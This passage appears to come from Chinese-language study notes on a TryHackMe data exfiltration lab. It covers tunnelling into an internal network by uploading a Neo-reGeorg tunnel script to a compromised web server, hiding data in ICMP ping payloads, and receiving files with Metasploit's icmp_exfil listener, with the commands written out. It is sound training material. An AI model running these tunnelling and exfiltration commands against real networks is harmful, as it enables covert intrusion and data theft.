             这会在 `neoreg_servers/` 目录下生成多种语言的隧道脚本 (如 `tunnel.php`, `tunnel.aspx` 等)。
        2. **上传隧道脚本**: 将对应语言的隧道脚本 (如 `tunnel.php`) 上传到受控的 Web 服务器 `uploader.thm.com` 的 Web 目录下。
        3. **客户端连接并建立SOCKS代理**:
            
            Bash
            
            ```
            root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py -k <password_for_tunnel> -u http://uploader.thm.com/path/to/tunnel.php
            ```
            
            连接成功后，Neo-reGeorg 会在本地监听一个 SOCKS 代理端口 (默认为 1080)。
        4. **通过代理访问内部资源**: 配置本地工具 (如 `curl`, `proxychains`, 或浏览器) 使用该 SOCKS5 代理 (127.0.0.1:1080)。
            
            Bash
            
            ```
            root@AttackBox:~$ curl --socks5 127.0.0.1:1080 http://app.thm.com_internal_ip
            ```
            
    - **流量特征**: 攻击者与隧道脚本之间表现为正常的 HTTP(S) 通信，隧道脚本与内部目标之间是正常的应用协议通信。从内部目标来看，访问源是运行隧道脚本的服务器。

##### D. ICMP 协议窃取 (ICMP Protocol Exfiltration)

- **原理与适用场景**: ICMP (Internet Control Message Protocol) 主要用于网络诊断和错误报告 (如 `ping` 命令)。ICMP 数据包结构中有一个可选的数据字段，可以被用来携带少量自定义数据。由于防火墙通常允许 ICMP 流量（至少是部分类型），因此可用于在限制严格的网络中隐蔽传输数据。
- **1. 手动数据发送 (Linux `ping -p` 命令)**:
    - **限制**: `-p` 选项仅在 Linux 的 `ping` 命令中可用，且通常只能填充少量数据 (如 16 字节)。
    - **步骤**:
        1. 将数据转换为十六进制:
            
            Bash
            
            ```
            root@AttackBox$ echo "thm:tryhackme" | xxd -p
            # 输出: 74686d3a7472796861636b6d650a
            ```
            
        2. 使用 `ping -p` 发送十六进制数据:
            
            Bash
            
            ```
            root@AttackBox$ ping <target_ip> -c 1 -p 74686d3a7472796861636b6d650a
            ```
            
        3. 接收方需要抓包 (如 `tcpdump`) 并解析 ICMP 数据部分。
- **2. 自动化工具窃取 (Metasploit `auxiliary/server/icmp_exfil` 模块)**:
    - **原理**: 该模块在攻击者机器上监听 ICMP 流量，通过约定的 BOF (Begin Of File) 和 EOF (End Of File) 触发字符串来识别文件名和数据内容，并将接收到的数据写入文件。
    - **步骤**:
        1. **攻击者机器 (Metasploit)**:
            
            代码段
            
            ```
            msf > use auxiliary/server/icmp_exfil
            msf auxiliary(server/icmp_exfil) > set BPF_FILTER "icmp and not src <AttackBox_IP>"
            msf auxiliary(server/icmp_exfil) > set INTERFACE eth0
            msf auxiliary(server/icmp_exfil) > run
            ```
            